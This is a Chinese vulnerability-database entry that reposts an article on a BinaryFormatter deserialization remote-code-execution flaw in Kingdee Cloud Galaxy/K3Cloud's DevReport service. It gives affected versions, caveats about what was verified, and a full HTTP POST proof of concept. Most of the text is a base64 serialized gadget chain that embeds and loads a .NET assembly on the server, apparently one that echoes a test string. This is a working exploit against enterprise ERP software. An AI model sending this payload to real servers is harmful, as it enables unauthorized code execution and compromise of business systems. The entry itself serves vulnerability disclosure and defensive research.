



# 金蝶云星空/K3Cloud DevReport BinaryFormatter反序列化

## 条目说明

- 对象与具体问题：金蝶云星空/K3Cloud；DevReport BinaryFormatter反序列化
- 版本、配置及部署条件：6/7区间串行；8.x区间；普通应用及管理中心
- 认证与权限前提：无Cookie示例
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- ysoserial命令缺收尾双引号；请求缺头体空行
- 固定二进制载荷与后续命令回显源码不是自动同一行为；正文命令测试省略，不能把截图替代完整验证
- 保留EnabledKDSVCBinary双配置/重启与业务中断说明，官方补丁链接和CSDN应分来源层级
- 6.x<=与缓解低于边界需核

## 操作风险

命令/代码执行示例可能改变主机状态。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/NpkNYFAvw2utw0KOlorL2g)

  

网安引领时代，弥天点亮未来   

  

  


  

**0x00 写在前面**  

  

**本次测试仅供学习使用，如若非法他用，与平台和本文作者无关，需自行负责！**


  

**0x01 漏洞介绍**

金蝶云星空是一款云端企业资源管理（ERP）软件，为企业提供财务管理、供应链管理以及业务流程管理等一体化解决方案。金蝶云 · 星空聚焦多组织，多利润中心的大中型企业，以 “开放、标准、社交” 三大特性为数字经济时代的企业提供开放的 ERP 云平台。服务涵盖：财务、供应链、智能制造、阿米巴管理、全渠道营销、电商、HR、企业互联网服务，帮助企业实现数字化营销新生态及管理重构等，提升企业数字化能力。

金蝶云星空存在远程代码执行漏洞, 由于金蝶云星空数据通信默认采用的是二进制数据格式，需要进行序列化与反序列化，在此过程中未对数据进行签名或校验，导致客户端发出的数据可被攻击者恶意篡改，写入包含恶意代码的序列化数据，达到在服务端远程命令执行的效果。


  

**0x02 影响版本**  

6.x <= 6.2.1012.4 7.0.352.16 <= 金蝶云星空 

7.x <= 7.7.0.202111 

8.0.0.202205 <= 金蝶云星空 8.x <= 8.1.0.20221110


  

**0x03 漏洞复现**  

  

1. 访问漏洞环境


2. 对漏洞进行复现

 **POC （POST）**

```http
POST /K3Cloud/Kingdee.BOS.ServiceFacade.ServicesStub.DevReportService.GetBusinessObjectData.common.kdsvc HTTP/1.1
Host: 127.0.0.1:8000
User-Agent: Go-http-client/1.1
Content-Length: 15224
Content-Type: text/json
Accept-Encoding: gzip
{"ap0":"AAEAAAD/////AQAAAAAAAAAMAgAAAFdTeXN0ZW0uV2luZG93cy5Gb3JtcywgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODkFAQAAACFTeXN0ZW0uV2luZG93cy5Gb3Jtcy5BeEhvc3QrU3RhdGUBAAAAEVByb3BlcnR5QmFnQmluYXJ5BwICAAAACQMAAAAPAwAAAMcrAAACAAEAAAD/////AQAAAAAAAAAEAQAAAH9TeXN0ZW0uQ29sbGVjdGlvbnMuR2VuZXJpYy5MaXN0YDFbW1N5c3RlbS5PYmplY3QsIG1zY29ybGliLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49Yjc3YTVjNTYxOTM0ZTA4OV1dAwAAAAZfaXRlbXMFX3NpemUIX3ZlcnNpb24FAAAICAkCAAAACgAAAAoAAAAQAgAAABAAAAAJAwAAAAkEAAAACQUAAAAJBgAAAAkHAAAACQgAAAAJCQAAAAkKAAAACQsAAAAJDAAAAA0GBwMAAAABAQAAAAEAAAAHAgkNAAAADA4AAABhU3lzdGVtLldvcmtmbG93LkNvbXBvbmVudE1vZGVsLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49MzFiZjM4NTZhZDM2NGUzNQUEAAAAalN5c3RlbS5Xb3JrZmxvdy5Db21wb25lbnRNb2RlbC5TZXJpYWxpemF0aW9uLkFjdGl2aXR5U3Vycm9nYXRlU2VsZWN0b3IrT2JqZWN0U3Vycm9nYXRlK09iamVjdFNlcmlhbGl6ZWRSZWYCAAAABHR5cGULbWVtYmVyRGF0YXMDBR9TeXN0ZW0uVW5pdHlTZXJpYWxpemF0aW9uSG9sZGVyDgAAAAkPAAAACRAAAAABBQAAAAQAAAAJEQAAAAkSAAAAAQYAAAAEAAAACRMAAAAJFAAAAAEHAAAABAAAAAkVAAAACRYAAAABCAAAAAQAAAAJFwAAAAkYAAAAAQkAAAAEAAAACRkAAAAJGgAAAAEKAAAABAAAAAkbAAAACRwAAAABCwAAAAQAAAAJHQAAAAkeAAAABAwAAAAcU3lzdGVtLkNv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AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABA8AAAAfU3lzdGVtLlVuaXR5U2VyaWFsaXphdGlvbkhvbGRlcgMAAAAERGF0YQlVbml0eVR5cGUMQXNzZW1ibHlOYW1lAQABCAYhAAAA/gFTeXN0ZW0uTGlucS5FbnVtZXJhYmxlK1doZXJlU2VsZWN0RW51bWVyYWJsZUl0ZXJhdG9yYDJbW1N5c3RlbS5CeXRlW10sIG1zY29ybGliLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49Yjc3YTVjNTYxOTM0ZTA4OV0sW1N5c3RlbS5SZWZsZWN0aW9uLkFzc2VtYmx5LCBtc2NvcmxpYiwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODldXQQAAAAGIgAAAE5TeXN0ZW0uQ29yZSwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODkQEAAAAAcAAAAJAwAAAAoJJAAAAAoICAAAAAAKCAgBAAAAAREAAAAPAAAABiUAAAD1AlN5c3RlbS5MaW5xLkVudW1lcmFibGUrV2hlcmVTZWxlY3RFbnVtZXJhYmxlSXRlcmF0b3JgMltbU3lzdGVtLlJlZmxlY3Rpb24uQXNzZW1ibHksIG1zY29ybGliLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49Yjc3YTVjNTYxOTM0ZTA4OV0sW1N5c3RlbS5Db2xsZWN0aW9ucy5HZW5lcmljLklFbnVtZXJhYmxlYDFbW1N5c3RlbS5UeXBlLCBtc2NvcmxpYiwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODldXSwgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XV0EAAAACSIAAAAQEgAAAAcAAAAJBAAAAAoJKAAAAAoICAAAAAAKCAgBAAAAARMAAAAPAAAABikAAADfA1N5c3RlbS5MaW5xLkVudW1lcmFibGUrV2hlcmVTZWxlY3RFbnVtZXJhYmxlSXRlcmF0b3JgMltbU3lzdGVtLkNvbGxlY3Rpb25zLkdlbmVyaWMuSUVudW1lcmFibGVgMVtbU3lzdGVtLlR5cGUsIG1zY29ybGliLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49Yjc3YTVjNTYxOTM0ZTA4OV1dLCBtc2NvcmxpYiwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODldLFtTeXN0ZW0uQ29sbGVjdGlvbnMuR2VuZXJpYy5JRW51bWVyYXRvcmAxW1tTeXN0ZW0uVHlwZSwgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XV0sIG1zY29ybGliLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49Yjc3YTVjNTYxOTM0ZTA4OV1dBAAAAAkiAAAAEBQAAAAHAAAACQUAAAAKCSwAAAAKCAgAAAAACggIAQAAAAEVAAAADwAAAAYtAAAA5gJTeXN0ZW0uTGlucS5FbnVtZXJhYmxlK1doZXJlU2VsZWN0RW51bWVyYWJsZUl0ZXJhdG9yYDJbW1N5c3RlbS5Db2xsZWN0aW9ucy5HZW5lcmljLklFbnVtZXJhdG9yYDFbW1N5c3RlbS5UeXBlLCBtc2NvcmxpYiwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODldXSwgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XSxbU3lzdGVtLlR5cGUsIG1zY29ybGliLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49Yjc3YTVjNTYxOTM0ZTA4OV1dBAAAAAkiAAAAEBYAAAAHAAAACQYAAAAJMAAAAAkxAAAACggIAAAAAAoICAEAAAABFwAAAA8AAAAGMgAAAO8BU3lzdGVtLkxpbnEuRW51bWVyYWJsZStXaGVyZVNlbGVjdEVudW1lcmFibGVJdGVyYXRvcmAyW1tTeXN0ZW0uVHlwZSwgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XSxbU3lzdGVtLk9iamVjdCwgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XV0EAAAACSIAAAAQGAAAAAcAAAAJBwAAAAoJNQAAAAoICAAAAAAKCAgBAAAAARkAAAAPAAAABjYAAAApU3lzdGVtLldlYi5VSS5XZWJDb250cm9scy5QYWdlZERhdGFTb3VyY2UEAAAABjcAAABNU3lzdGVtLldlYiwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWIwM2Y1ZjdmMTFkNTBhM2EQGgAAAAcAAAAJCAAAAAgIAAAAAAgICgAAAAgBAAgBAAgBAAgIAAAAAAEbAAAADwAAAAY5AAAAKVN5c3RlbS5Db21wb25lbnRNb2RlbC5EZXNpZ24uRGVzaWduZXJWZXJiBAAAAAY6AAAASVN5c3RlbSwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODkQHAAAAAUAAAANAgk7AAAACAgDAAAACQsAAAABHQAAAA8AAAAGPQAAADRTeXN0ZW0uUnVudGltZS5SZW1vdGluZy5DaGFubmVscy5BZ2dyZWdhdGVEaWN0aW9uYXJ5BAAAAAY+AAAAS21zY29ybGliLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49Yjc3YTVjNTYxOTM0ZTA4ORAeAAAAAQAAAAkJAAAAEB8AAAACAAAACQoAAAAJCgAAABAgAAAAAgAAAAZBAAAAAAlBAAAABCQAAAAiU3lzdGVtLkRlbGVnYXRlU2VyaWFsaXphdGlvbkhvbGRlcgIAAAAIRGVsZWdhdGUHbWV0aG9kMAMDMFN5c3RlbS5EZWxlZ2F0ZVNlcmlhbGl6YXRpb25Ib2xkZXIrRGVsZWdhdGVFbnRyeS9TeXN0ZW0uUmVmbGVjdGlvbi5NZW1iZXJJbmZvU2VyaWFsaXphdGlvbkhvbGRlcglCAAAACUMAAAABKAAAACQAAAAJRAAAAAlFAAAAASwAAAAkAAAACUYAAAAJRwAAAAEwAAAAJAAAAAlIAAAACUkAAAABMQAAACQAAAAJSgAAAAlLAAAAATUAAAAkAAAACUwAAAAJTQAAAAE7AAAABAAAAAlOAAAACU8AAAAEQgAAADBTeXN0ZW0uRGVsZWdhdGVTZXJpYWxpemF0aW9uSG9sZGVyK0RlbGVnYXRlRW50cnkHAAAABHR5cGUIYXNzZW1ibHkGdGFyZ2V0EnRhcmdldFR5cGVBc3NlbWJseQ50YXJnZXRUeXBlTmFtZQptZXRob2ROYW1lDWRlbGVnYXRlRW50cnkBAQIBAQEDMFN5c3RlbS5EZWxlZ2F0ZVNlcmlhbGl6YXRpb25Ib2xkZXIrRGVsZWdhdGVFbnRyeQZQAAAA1QFTeXN0ZW0uRnVuY2AyW1tTeXN0ZW0uQnl0ZVtdLCBtc2NvcmxpYiwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODldLFtTeXN0ZW0uUmVmbGVjdGlvbi5Bc3NlbWJseSwgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XV0JPgAAAAoJPgAAAAZSAAAAGlN5c3RlbS5SZWZsZWN0aW9uLkFzc2VtYmx5BlMAAAAETG9hZAoEQwAAAC9TeXN0ZW0uUmVmbGVjdGlvbi5NZW1iZXJJbmZvU2VyaWFsaXphdGlvbkhvbGRlcgcAAAAETmFtZQxBc3NlbWJseU5hbWUJQ2xhc3NOYW1lCVNpZ25hdHVyZQpTaWduYXR1cmUyCk1lbWJlclR5cGUQR2VuZXJpY0FyZ3VtZW50cwEBAQEBAAMIDVN5c3RlbS5UeXBlW10JUwAAAAk+AAAACVIAAAAGVgAAACdTeXN0ZW0uUmVmbGVjdGlvbi5Bc3NlbWJseSBMb2FkKEJ5dGVbXSkGVwAAAC5TeXN0ZW0uUmVmbGVjdGlvbi5Bc3NlbWJseSBMb2FkKFN5c3RlbS5CeXRlW10pCAAAAAoBRAAAAEIAAAAGWAAAAMwCU3lzdGVtLkZ1bmNgMltbU3lzdGVtLlJlZmxlY3Rpb24uQXNzZW1ibHksIG1zY29ybGliLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49Yjc3YTVjNTYxOTM0ZTA4OV0sW1N5c3RlbS5Db2xsZWN0aW9ucy5HZW5lcmljLklFbnVtZXJhYmxlYDFbW1N5c3RlbS5UeXBlLCBtc2NvcmxpYiwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODldXSwgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XV0JPgAAAAoJPgAAAAlSAAAABlsAAAAIR2V0VHlwZXMKAUUAAABDAAAACVsAAAAJPgAAAAlSAAAABl4AAAAYU3lzdGVtLlR5cGVbXSBHZXRUeXBlcygpBl8AAAAYU3lzdGVtLlR5cGVbXSBHZXRUeXBlcygpCAAAAAoBRgAAAEIAAAAGYAAAALYDU3lzdGVtLkZ1bmNgMltbU3lzdGVtLkNvbGxlY3Rpb25zLkdlbmVyaWMuSUVudW1lcmFibGVgMVtbU3lzdGVtLlR5cGUsIG1zY29ybGliLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49Yjc3YTVjNTYxOTM0ZTA4OV1dLCBtc2NvcmxpYiwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODldLFtTeXN0ZW0uQ29sbGVjdGlvbnMuR2VuZXJpYy5JRW51bWVyYXRvcmAxW1tTeXN0ZW0uVHlwZSwgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XV0sIG1zY29ybGliLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49Yjc3YTVjNTYxOTM0ZTA4OV1dCT4AAAAKCT4AAAAGYgAAAIQBU3lzdGVtLkNvbGxlY3Rpb25zLkdlbmVyaWMuSUVudW1lcmFibGVgMVtbU3lzdGVtLlR5cGUsIG1zY29ybGliLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49Yjc3YTVjNTYxOTM0ZTA4OV1dBmMAAAANR2V0RW51bWVyYXRvcgoBRwAAAEMAAAAJYwAAAAk+AAAACWIAAAAGZgAAAEVTeXN0ZW0uQ29sbGVjdGlvbnMuR2VuZXJpYy5JRW51bWVyYXRvcmAxW1N5c3RlbS5UeXBlXSB